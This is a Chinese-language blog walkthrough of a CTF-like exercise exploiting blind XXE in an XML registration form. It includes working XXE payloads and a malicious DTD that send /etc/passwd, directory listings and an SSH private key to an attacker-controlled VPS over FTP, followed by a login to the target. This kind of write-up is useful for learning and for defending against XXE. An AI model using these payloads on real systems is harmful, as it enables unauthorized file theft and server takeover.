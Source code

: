 **目录**

[Blind XXE读取任意文件Getshell](#t0 "Blind XXE读取任意文件Getshell")

* * *

这是一道类似CTF的题目。话不多说

访问链接，如下。于是随便输入任意数字，点击Create Account

![](https://img-blog.csdnimg.cn/20200317225317877.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

抓包重放，发现是XML提交的格式。于是乎想到了XXE漏洞

![](https://img-blog.csdnimg.cn/20200317225740993.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

尝试读取文件，发现结果无变化。这就陷入了僵局。因为这里结果无变化有可能是目标网站不存在XXE漏洞，也有可能是目标网站存在XXE漏洞，但是不回显数据。

![](https://img-blog.csdnimg.cn/20200317225806657.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

于是，我们先得判断其是否存在XXE漏洞。利用DNSLog方法，我们提交如下Payload，如果目标网站存在XXE漏洞的话，就会请求我们指定的地址，当然就会去解析该地址，我们的DNS平台上就会有相应的解析记录。最后重放发现，返回包提示内部错误，并且我们的DNS平台上收到了查询的数据，即可证明目标网站存在XXS漏洞。

```
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE root [      
<!ENTITY % remote SYSTEM "http://eja5f2.dnslog.cn">      
%remote;]>      
<root/>      
<reg><name>111</name><tel>222</tel><email>333</email></reg>
```


![](https://img-blog.csdnimg.cn/20200401224920616.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200401224956178.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

现在已经证明了该网站存在XXS漏洞，但是由于无回显，所以我们只能利用Blind XXE方法。

### Blind XXE读取任意文件Getshell

首先，在我们的VPS上建立一个xml.dtd文件，内容如下。然后建立起一个HTTP服务，访问路径为：http://vps的IP/xml.dtd

```
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'ftp://vps的地址:2121/%file;'>">      
%all;
```


![](https://img-blog.csdnimg.cn/20200317230039539.png)

然后在我们的VPS上运行另外一个脚本，监听2121端口的流量

![](https://img-blog.csdnimg.cn/2020031723014763.png)

最后，我们提交的Post数据如下。重放

![](https://img-blog.csdnimg.cn/20200317230339468.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

可以看到，我们2121监听的端口收到了目标主机发送过来的 /etc/passwd 文件了。

```
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE ANY [      
<!ENTITY % file SYSTEM "file:///etc/passwd">      
<!ENTITY % dtd SYSTEM "http://VPS的IP/xml.dtd">      
%dtd;      
%send;      
]>      
<reg><name>11</name><tel>22</tel><email>33</email></reg>
```


![](https://img-blog.csdnimg.cn/20200317230418155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们修改POST提交数据，可以对目标主机实现任意目录浏览和任意文件读取。如下，是读取目标主机 /etc/ 目录

```
<?xml version="1.0" encoding="UTF-8"?>      
<!DOCTYPE ANY [      
<!ENTITY % file SYSTEM "file:///etc/">      
<!ENTITY % dtd SYSTEM "http://VPS的IP/xml.dtd">      
%dtd;      
%send;      
]>      
<reg><name>11</name><tel>22</tel><email>33</email></reg>
```


![](https://img-blog.csdnimg.cn/2020031723070718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200317230606153.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

能列目录和读取任意文件后，我们就可以去查找目标主机的敏感文件了。最终，我们在目标主机的 /home/用户名/ 目录下找到了私钥文件

![](https://img-blog.csdnimg.cn/20200317231251440.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

读取id\_rsa私钥文件。

![](https://img-blog.csdnimg.cn/202003172314179.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这里需要注意的是如何将读取到的私钥格式化，因为读取的数据很杂乱。我们最终可以读取 xxe-ftp.log 文件内容，然后过滤出私钥的数据。

![](https://img-blog.csdnimg.cn/20200317234117714.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后成功连上目标主机

![](https://img-blog.csdnimg.cn/20200317231511768.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**注：**

这里通过监听2121端口的流量读取的数据，是从 RETR 开始后面的这些

![](https://img-blog.csdnimg.cn/20200317232106163.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200317232146294.png)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

 相关文章：[记一次利用BLIND OOB XXE漏洞获取文件系统访问权限的测试](https://www.freebuf.com/vuls/167087.html "记一次利用BLIND OOB XXE漏洞获取文件系统访问权限的测试")